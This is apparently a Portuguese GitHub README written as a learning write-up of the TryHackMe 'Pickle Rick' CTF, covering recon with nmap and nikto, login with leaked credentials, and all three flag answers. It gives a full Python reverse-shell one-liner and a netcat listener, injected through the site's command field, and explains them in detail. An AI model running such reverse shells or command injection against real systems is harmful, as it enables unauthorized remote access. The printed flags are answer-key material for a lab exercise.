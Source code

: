 # CTF Pickle Rick - Passo a passo do meu primeiro CTF do TryHackme
Este repositório documenta passo a passo a minha jornada de resolução do CTF "Pickle Rick" na plataforma TryHackme. O objetivo é compartilhar meu aprendizado e experiência, detalhando os processos e comandos utilizados para completar o desafio.

## Descrição do Desafio
O objetivo do CTF era encontrar três "ingredientes" para ajudar Rick a se transformar em humano novamente. Para isso, era necessário explorar o site alvo, identificar vulnerabilidades e explorar o sistema para obter acesso aos ingredientes.

## Passos para Resolução
1. **Validação e Verificação do HTML:**
   Inspecionei o código HTML da página inicial e encontrei um comentário com o username "R1ckRul3s".
   No arquivo "/robots.txt", encontrei a palavra "Wubbalubbadubdub".

2. **Scan de Portas com Nmap:**
   Realizei um scan de portas com o comando nmap -sC -sV -oN nmap/initial 10.10.134.39.
   As portas 22 (SSH) e 80 (HTTP) estavam abertas.


3. **Scan de Vulnerabilidades com Nikto:**
   Executei o comando nikto -h http://$IP | tee nkto.log para identificar vulnerabilidades no site.
   Encontrei algumas vulnerabilidades, incluindo:
   * Ausência do cabeçalho X-Frame-Options
   * Versão desatualizada do Apache
   * Cookie PHPSESSID sem o flag httponly
   * Página de login de administrador
  
4. **Primeira Flag:**
   Acessei a página de login /login.php com o username "R1ckRul3s" e a senha "Wubbalubbadubdub".
   Obtive acesso à página de administrador e encontrei a primeira flag no arquivo "Sup3rS3cretPickl3Ingred.txt": "mr. meeseek hair".

5. **Segunda Flag:**
   Decifrei um hash em base64 encontrado no HTML da página, que me levou à frase "rabbit hole" que era só um atrativo para perder tempo. Explorei o código fonte da página /portal.php e executei um reverse shell Python para obter acesso ao servidor no campo de input da mesma. Encontrei a segunda flag no arquivo second ingredients, localizado em /home/rick: "1 jerry tear".

6. **Terceira Flag:**
   Obtive acesso root ao servidor, pois não havia senha definida.
   Encontrei a terceira flag no arquivo 3rd.txt, localizado no diretório raiz: "fleeb juice".
   
## Detalhes Técnicos

### Comando utilizados:
* `nmap -sC -sV -oN nmap/initial $IP`
* `nikto -h http://$IP | tee nkto.log`
* `nc -lnvp 9999`
* ```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MeuIP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'```

* **OBS:** As saídas do nmap e do nikto estão localizadas em suas respectivas pastas neste repositório.

### Detalhamento dos comandos utilizados:

**Detalhamento do comando usado no Nmap:**
* **nmap**: Comando utilizado para chamar a ferramente no terminal.
* **-sC**: Opção que permite scripts serem executados na varredura. Existe uma coleção de scripts mais detalhados, mas deixando em branco foi utilizado script default.
* **-sV**: Opção que ativa a detecção de versão dos serviços, tentando detalhar a versão dos softwares e serviços que estão sendo executados no alvo. 
* **-oN nmap/initial**: Esta opção tem como objetivos salvar o retorno da varredura em um arquivo legível salvo no diretório apontado.
* **$IP**: Este é o IP do alvo, definido no terminal atravé do comando `export IP="IP do alvo"` sendo este utilizado para poder ser feita a varredura. 
  
<hr>

**Detalhamento do comando usado no Nitko:**
* **nikto**: Comando utilizado para chamar a ferramente no terminal.
* **-h http://$IP**: A opção `-h` é utilizada para especificar o host que será escaneado. Sendo o host representado pela variável `IP` que havia sido declarada anteriormente no terminal através do comando `export IP="IP do alvo"`.
* **|**: O Pipe serve para pegar o retorno do comando a esquerda dele e usar como entrada para o comando a direita dele.
* **tee nkto.log**: Utilizando o comando tee é possível gravar a saída do comando em um arquivo chamado nkto.log e ainda exibí-la no terminal. 

<hr>

**Detalhamento do comando usado no Ncat:**
* **nc**: Comando utilizado para chamar a ferramenta do terminal e executá-la. 
* **-l**: Opção usada para especificar para o ncat que ele deve ficar "escutando" uma conexão de entrada.
* **-n**: Opção usada para impedir que o ncat realize qualquer pesquisa DNS ou portas, nomes de hosts...
* **-v**: Opção utilizada para aumentar a verbosidade do retorno do ncat, informando mais dados na saída do terminal. 
* **-p 9999**: A opção `-p` é usada para especificar a porta que o ncat deve ficar escutando, e o `9999` é a porta em questão.

<hr>

**Detalhamento do código em Python utilizado:**
* **python3 -c**: Executa o código Python que segue na linha de comando.
* **import socket,subprocess,os**: importa os módulos necessários. O socket para conexões de rede, subprocess para criar novos processos e os para interfaces diversas do sistema operacional.
* **s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);**:Isso cria um novo objeto de socket que usa a família de endereços IPv4 (AF_INET) e o tipo de socket TCP (SOCK_STREAM).
* **s.connect(("Meu IP",9999));**: Isso conecta o socket ao endereço IP informado na porta 9999.
* **os.dup2(s.fileno(),0), os.dup2(s.fileno(),1), os.dup2(s.fileno(),2);**: Essas linhas redirecionam os descritores de arquivo padrão para o socket. 0, 1 e 2 representam os descritores de arquivo padrão para entrada padrão, saída padrão e erro padrão, respectivamente. Isso significa que a entrada, saída e erro do processo que será criado serão enviados através do socket.
* **p=subprocess.call(["/bin/sh","-i"]);**: Isso cria um novo processo que inicia uma nova shell. A opção `-i` garante que a shell seja interativa, o que significa que ela pode receber entrada do usuário.


### Recursos Adicionais:
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Considerações finais

Este CTF foi uma experiência desafiadora e gratificante que me permitiu praticar minhas habilidades em ethical hacking. Através da análise de código, exploração de vulnerabilidades e pivotamento de rede, fui capaz de completar o desafio e obter as três flags.

Agradecimentos:

Agradeço à plataforma TryHackme por oferecer este CTF e por contribuir para o meu aprendizado em segurança da informação.